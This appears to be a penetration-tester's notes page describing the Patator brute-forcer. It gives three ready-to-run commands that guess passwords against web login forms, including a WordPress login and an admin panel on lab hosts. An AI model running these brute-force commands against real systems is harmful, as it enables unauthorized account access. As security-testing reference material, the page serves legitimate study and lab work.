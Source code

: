 ```yaml
---
tags:
  - Post-Exploitation
  - Cryptography
  - PasswordsAndWordlists
  - Tooling
  - BruteForcing
---
```


Patator is a multi-purpose brute-forcer, with a modular design and a flexible usage.

# Commands

* `patator http_fuzz url=http://192.168.68.106/login method=POST body='{"username":"COMBO00","password":"COMBO01"}' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt  accept_cookie=1 follow=1 max_follow=2 -x ignore:fgrep='Unauthorized' header ='Content-Type: application/json'`
* `patator http_fuzz url=http://loly.lc/wordpress/wp-login.php method=POST body='log=loly&pwd=FILE0&wp-submit=Log+In&redirect_to=&testcookie=1' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt -x ignore:fgrep=Error`
* `patator http_fuzz url=https://172.16.10.248:8081/lib/crud/userprocess.php method=POST body='user=admin&pass=COMBO00&sublogin=1' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt after_urls=https://172.16.10.248:8081/dashboard.php accept_cookie=1 follow=1 max_follow=2 -x ignore:clen=5878`

